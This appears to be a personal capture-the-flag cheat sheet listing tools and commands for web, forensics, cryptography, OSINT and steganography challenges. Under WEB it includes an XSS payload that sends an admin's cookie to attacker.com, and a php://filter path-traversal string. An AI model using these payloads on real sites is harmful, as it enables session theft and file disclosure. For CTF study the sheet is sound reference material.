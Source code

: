 # Welcome !
Hi! 
# WEB

 **burpsuit**
       **gobuster**
**ffuf**
        **Cookie Editor**
**xss payload to steal cookie from admin ->**
**script fetch(https://attacker.com/steal?cookie=%27btoa(document.cookie)); /script**
**path traversal ->**
- php://filter/convert.base64-encode/resource=file

# Fronsics Tools

**HxD -> to show file signeture**
**Memory Dump = volatility**
-  -1 volatility -f fileName imageinfo
-2 volatility -f fileName profile=profileName pslist
-3 volatility -f fileName profile=profileName consoles //for show cmd log 
**---------------------------------**
- --1 volatility -f fileName imageinfo
-2 volatility -f fileName profile=profileName pslist
if we see notepad is was open ->
-3 volatility -f fileName profile=profileName notepad
if we see internet explorer is was open ->
-4 volatility -f fileName profile=profileName iehistory (edited)
-4 volatility -f fileName profile=profileName filescan // to list files on system
-6 volatility -f fileName profile=profileName dumpfiles -Q hexAddress -D locationWhereYouWantToSave

**binwalk to detect file extention**
- -1 binwalk fileName -e // to extract files

**file signeture list -> https://en.wikipedia.org/wiki/List_of_file_signatures**

**- Note: if the file extention was odt change it to rar**

**cipher decoder -> https://www.dcode.fr/caesar-cipher**

**text compere -> https://text-compare.com/**

**sonic visualiser -> for audio**
- sonic trick
layer -> add spectrogram
# Cryptography

**Cryptii -> https://cryptii.com/**
**file signeture list -> https://en.wikipedia.org/wiki/List_of_file_signatures**
**google hacking -> https://gist.github.com/sundowndev/283efaddbcf896ab405488330d1bbc06**
**Cyber chef > to decode and detect hash type 
->https://gchq.github.io/CyberChef/**
**if the cipher has elements @ like maker roete47**
**if the cipher has _ . -> # Morse decode**

# OSINT
**yandex for image**
**to found user social accountes https://github.com/sherlock-project/sherlock.git**
**dtmf decoder -> for phone sound**

****

# steganography
**steghide for jpg**
**-> steghide extract -sf image.jpg**
**zsteg for png images**
**stegoveritas for every images**
**-> stegoveritas image.jpg**
**sonic visualiser for wav files**
**https://www.spammimic.com/ -> text**
**secretaudio for audio files**

- if you found image try to
 cat image.jpg
strings image.jpg
